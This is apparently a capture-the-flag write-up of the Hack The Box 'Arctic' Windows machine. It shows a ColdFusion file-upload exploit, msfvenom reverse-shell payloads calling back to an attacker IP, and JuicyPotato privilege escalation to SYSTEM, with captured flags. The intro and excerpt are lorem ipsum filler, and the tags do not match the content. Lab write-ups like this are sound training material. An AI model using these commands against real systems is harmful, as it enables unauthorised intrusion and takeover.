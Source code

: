 ```yaml
---
layout: single
title: Arctic - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-26
classes: wide
header:
  teaser: /assets/images/htb-writeup-arctic/arctic_logo.png
  teaser_home_page: true
  icon: /assets/images/windows.png
categories:
  - hackthebox
  - infosec
tags:  
  - windows
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-arctic/arctic_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:~]# nmap -Pn -n -sCV 10.10.10.11 --open
    PORT      STATE SERVICE VERSION
    135/tcp   open  msrpc   Microsoft Windows RPC
    8500/tcp  open  fmtp?
    49154/tcp open  msrpc   Microsoft Windows RPC
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


  RPCCLIENT:
    -U "" = timeout


2. The port 8500 is unknown to me, so googling about it and I found a TCP port list, showing exploits from Shadowbrokers.
   Port 8500 is assigned for 'ColdFusion Macromedia/Adobe ColdFusion default Webserver port'.

   Continue to google about ColdFusion exploits and I find a python upload script, made by Arrexel from HTB.

    [root:/git/htb/arctic]# python coldFusion.py 10.10.10.11 8500 cmd.jsp                                                             (master✱)
      Sending payload...
      Successfully uploaded payload!
      Find it at http://10.10.10.11:8500/userfiles/file/exploit.jsp

    Command: whoami
      arctic\tolis

  The webshell is to unstable, so instead create a reverse payload to create a reverse shell.
    [root:/git/htb/arctic]# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=4488 -f raw > payload.jsp                   (master✱)
      Payload size: 1496 bytes

    [root:/git/htb/arctic]# python coldFusion.py 10.10.10.11 8500 payload.jsp                                                         (master✱)
      Sending payload...
      Successfully uploaded payload!
      Find it at http://10.10.10.11:8500/userfiles/file/payload.jsp

    [root:/git/htb/arctic]# rlwrap nc -lvnp 4488                                                                                      (master✱)
      listening on [any] 4488 ...
      connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49214
      Microsoft Windows [Version 6.1.7600]
      Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

      C:\ColdFusion8\runtime\bin> whoami
        arctic\tolis

      C:\Users\tolis\Desktop> type user.txt
        02650d3a69a70780c302e146a6cb96f3


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Check privs to see if we can abuse them.

  C:\Users\tolis\Desktop> whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                               State
    ============================= ========================================= ========
    SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
    SeImpersonatePrivilege        Impersonate a client after authentication Enabled
    SeCreateGlobalPrivilege       Create global objects                     Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

  We got 'SeImpersonatePrivilege', and since it's a 2008 machine JuicyPotato is allways an option.

  Start by creating your reverse payload:
    [root:/srv/pub-share]# msfvenom -p cmd/windows/reverse_powershell lhost=10.10.14.8 lport=4499 > arctic-privesc.bat
      [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
      [-] No arch selected, selecting arch: cmd from the payload
      No encoder specified, outputting raw payload
      Payload size: 1583 bytes

  Setup a SMB Server and copy JuicyPotato and .bat-file to the victim:
    [root:/srv/pub-share]# smbserver.py share .

    C:\tmp> copy \\10.10.14.8\share\JuicyPotato.exe .
            1 file(s) copied
    C:\tmp> copy \\10.10.14.8\share\arctic-privesc.bat .
            1 file(s) copied.

  Execute the exploit:
    C:\tmp> JuicyPotato.exe -l 1444 -p c:\Windows\System32\cmd.exe -a "/c C:\tmp\arctic-privesc.bat" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}
      Testing {8BC3F05E-D86B-11D0-A075-00C04FB68820} 1444
      ....
      [+] authresult 0
      {8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM

      [+] CreateProcessWithTokenW OK


    [root:/git/htb/arctic]# rlwrap nc -lvnp 4499                                                                                      (master✱)
      listening on [any] 4499 ...
      connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49269
      Microsoft Windows [Version 6.1.7600]
      Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

      C:\Windows/System32> whoami
        nt authority\system

      C:\Users\Administrator\Desktop> type root.txt
        ce65ceee66b2b5ebaff07e50508ffb90



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


Shadowbrokers port list:
  https://github.com/DonnchaC/shadowbrokers-exploits/blob/master/windows/Resources/Ep/Scripts/tcp_ports.txt

ColdFusion file upload:
  https://forum.hackthebox.eu/discussion/116/python-coldfusion-8-0-1-arbitrary-file-upload
